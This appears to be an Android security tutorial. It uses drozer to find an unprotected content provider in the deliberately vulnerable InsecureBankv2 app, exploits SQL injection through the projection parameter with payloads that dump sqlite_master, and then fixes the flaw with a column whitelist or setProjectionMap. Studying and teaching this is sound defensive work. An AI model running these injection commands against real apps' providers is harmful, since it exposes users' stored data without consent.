 ```yaml
---
layout: default
title: Vulnerable Android Content Providers
description: Identify and fix security vulnerabilities in Android content provider implementations
permalink: /android/security/:title
last_modified_at: 2017-2-4
---
```

{% include android-app-security-series-intro.html %}

### Prerequisites 

* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
* Drozer console runs and connected to drozer agent

### Getting information

Let's use [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) to determine content providers that InsecureBank application exports:

```
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
```

As seen from the above output, there is one content provider which is not protected by a permission. This means that any application on the same device can read and write to that provider. Let's determine what data does the given provider deal with. Usually, content providers use either SQLite databases or files as an underneath data storage with which they operate. In case of an SQLite database, content providers may be vulnerable to SQL injection vulnerabilities. The next step going forward is to determine which URIs does the provider deal with. We can do this by inspecting a reversed engineered source code of an application, or by using a dedicated drozer command (in a real world scenario, we would probably do both just to be on the safe side):

```
dz> run app.provider.finduri com.android.insecurebankv2
Scanning com.android.insecurebankv2...
content://com.android.insecurebankv2.TrackUserContentProvider/
content://com.google.android.gms.games
content://com.android.insecurebankv2.TrackUserContentProvider
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.google.android.gms.games/
```

Next, we need to find if drozer found actual URIs. So, let's try queyring those URIs that deal with application:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/
Unknown URI content://com.android.insecurebankv2.TrackUserContentProvider/
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
| id | name   |
| 1  | dinesh |
```

We did not have luck with the first one, but we were able to successfully retrieve the content of `content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`, which, apparently, shows us users that have used an application. 

### Exploit

Let's determine now if that content provider is vulnerable to SQL injection. As specified in Android [content providers documentation](https://developer.android.com/guide/topics/providers/content-provider-basics.html#Query), when constructing a query, projection defines which columns should be returned. This is where we can try to inject control character `'` to determine whether provider is vulnerable:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "'"
unrecognized token: "' FROM names ORDER BY name" (code 1): , while compiling: SELECT ' FROM names ORDER BY name
```

As you can see, `'` token was used when constructing our query and that resulted in a SQL error. This means that our input was passed to SQL unsanitized. Now, let's try to determine if we can actually determine the structure of a database by constructing more elaborate injection:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "* from sqlite_master --"
| type  | name             | tbl_name         | rootpage | sql                                                                            |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
| table | names            | names            | 4        | CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                         |
```

In the above attack we used string `* from sqlite_master --` effectively turning the query that was executed into `SELECT * from sqlite_master`, which just gave us all tables in the underlying database.

As a side note, we will mention that drozer even has a dedicated command to execute similar type of an attack:

```
dz> run scanner.provider.sqltables -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers:
  android_metadata
  names
  sqlite_sequence
```

### Fix

Proper design should always start with a discussion whether there is a legitimate need to export a given content provider, and then, what would be proper permissions to protect it (Hint: Use _signature_ permission to prevent other apps not developed by you from communicating with your app). But we already spent some time with the topic of permissions in one of the previous posts, so, let's try to see how to avoid SQL injection per se. 

When discussing the topic of SQL injection, it is almost customary to introduce a vulnerability by doing string concatenation. However, when we open a code of `TrackUserContentProvider`, we will see that this is not the case:

```
public Cursor query(Uri uri, String[] projection, String selection,	String[] selectionArgs, String sortOrder) {
		SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
		qb.setTables(TABLE_NAME);
		
		switch (uriMatcher.match(uri)) {
			case uriCode:
				qb.setProjectionMap(values);
				break;
			default:
				throw new IllegalArgumentException("Unknown URI " + uri);
		}
		if (sortOrder == null || sortOrder == "") {
			sortOrder = name;
		}
		Cursor c = qb.query(db, projection, selection, selectionArgs, null, null, sortOrder);
		
		// ...
	}
```

The developer used a class `SQLiteQueryBuilder` from class library, and called `query` method on it passing `projection` parameter received from the caller. So, let's look into the [source code of this class](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/database/sqlite/SQLiteQueryBuilder.java). At the time when I checked (January 2017), the `query` method had the following comment which indicated about protection against SQL injection in `selection` parameter:

```
// Validate the user-supplied selection to detect syntactic anomalies
// in the selection string that could indicate a SQL injection attempt.
```

So, there is a protection against injection in `selection` parameter. But what about `projection` parameter?! Turns out, more work is needed from the consumer of that API. 

There seems to be two ways how to deal with it. The first way that comes into mind is to do a whitelisting of fields that we allow to query. After all, `projection` parameter defines fields that may exist in the database, so, we can check whether the parameter contains legitimate fields before continuing with the query. Here is an example code one might add to the beginning of `query` method:

```
HashSet<String> validProjections = new HashSet<>(Arrays.asList("id", "name"));
for (String p : projection) {
    if (!validProjections.contains(p)) throw new IllegalArgumentException("Unknown projection: " + projection);
}
```

For our fix, we will choose another way by using `setProjectionMap` method from `SQLiteQueryBuilder` class. As stated in the [documentation](https://developer.android.com/reference/android/database/sqlite/SQLiteQueryBuilder.html#setProjectionMap(java.util.Map%3Cjava.lang.String,%20java.lang.String%3E)),

> If a projection map is set it must contain all column names the user may request, even if the key and value are the same.

`TrackUserContentProvider` already has a static `values` HashMap that is being used in the following method call:

```
qb.setProjectionMap(values);
```

The problem is that `values` HashMap is never populated. Let's add to it two possible columns that can exist in table `names`: `id` and `name` (Note, that since we don't specify a mapping between user provided names and database names, we use the same strings for keys and values in the HashMap):

```
values = new HashMap<>();
values.put("id", "id");
values.put("name", "name");
```

When we recompile our application and send it to the device, we will see that SQL injection does not work anymore:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "'"
Invalid column '
```

### Summary

In this post we looked at exploiting SQL injection in unsecured content provider. We also showed how to fix this vulnerability either by introducing whitelisting or using a method from the framework.
